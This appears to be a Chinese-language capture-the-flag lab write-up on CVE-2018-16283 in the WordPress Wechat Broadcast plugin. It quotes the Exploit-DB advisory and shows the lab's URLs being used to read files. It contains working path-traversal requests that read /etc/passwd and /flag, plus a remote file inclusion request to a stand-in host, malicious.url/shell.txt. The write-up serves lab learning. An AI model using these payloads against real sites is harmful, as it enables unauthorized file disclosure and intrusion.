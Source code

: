 ```yaml
---
title: "CVE-2018-16283"
date: 2024-07-24
tags: ["春秋云镜","CVE","WordPress"]
draft: false
---
```



<https://www.exploit-db.com/exploits/45438>


## WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion

```http
# Exploit Title: WordPress Plugin Wechat Broadcast 1.2.0 - Local File Inclusion
# Author: Manuel Garcia Cardenas
# Date: 2018-09-19
# Software link: https://es.wordpress.org/plugins/wechat-broadcast/
# CVE: CVE-2018-16283

# Description
# This bug was found in the file: /wechat-broadcast/wechat/Image.php
# echo file_get_contents(isset($_GET["url"]) ? $_GET["url"] : '');
# The parameter "url" it is not sanitized allowing include local or remote files
# To exploit the vulnerability only is needed use the version 1.0 of the HTTP protocol 
# to interact with the application.

# PoC
# The following URL have been confirmed that is vulnerable to local and remote file inclusion.

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd

# Remote File Inclusion POC:

GET /wordpress/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=http://malicious.url/shell.txt
```

## 演示

环境: [春秋云镜 免费空间>CVE-2018-16283](https://yunjing.ichunqiu.com/cve/detail/899)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/1.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../etc/passwd>

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/2.webp)

### 2.利用

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=../../../../../../../../../../flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/3.webp)

<http://eci-2ze8seqbpqn6bcpaq22a.cloudeci1.ichunqiu.com/wp-content/plugins/wechat-broadcast/wechat/Image.php?url=file:///flag> 

![](https://static.guyu.pro/yunjing.ichunqiu.com/899/4.webp)
